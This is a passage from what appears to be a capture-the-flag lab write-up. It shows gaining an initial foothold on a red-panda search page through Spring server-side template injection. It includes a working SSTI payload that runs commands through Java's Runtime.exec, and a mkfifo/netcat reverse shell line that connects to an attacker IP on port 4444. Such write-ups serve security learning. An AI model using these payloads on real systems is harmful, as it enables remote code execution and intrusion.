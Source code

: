 

# Initial Foothold

## TCP/80 (HTTP) - /search, SSTI2RCE
1. Found a page that allows users to search for names of red panda
	![]({{ page.img_path }}Pasted%20image%2020221105144201.png)
2. After some testing, I can conclude that
	- Some special characters are banned
		```
		# Payload
		$ 
		}
		{
		```
		![]({{ page.img_path }}Pasted%20image%2020221105145253.png)
		> `{, }` results in a `500 Internal Server Error`, this could be SSTI.
		{: .prompt-info}
	- Not vulnerable to SQLi/NoSQL
		> SQLMap could not find any vulnerabilities
		{: .prompt-info}
	- Not vulnerable to Command Injection
		> No code execution
		{: .prompt-info}
	- Not vulnerable to LFI/RFI
		> No content of files returned
		{: .prompt-info}
	- Vulnerable to SSTI
		```
		# Payload
		*{23*3}
		#{23*3}
		```
		![]({{ page.img_path }}Pasted%20image%2020221105144818.png)
		> Mathematic equation is computed and reflected.
		{: .prompt-info}
3. Searching for payload
	> Since `$` is banned, we have to look for payloads that does not contain `$`.
	> After browsing through the payloads, found [one](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java) w/o `$`
	{: .prompt-info}
4. SSTI RCE check
	```
	# Payload
	*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
	```
	![]({{ page.img_path }}Pasted%20image%2020221105145633.png)
	> RCE achieved !
	{: .prompt-info}
5. Create reverse shell payload
	```
	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f
	```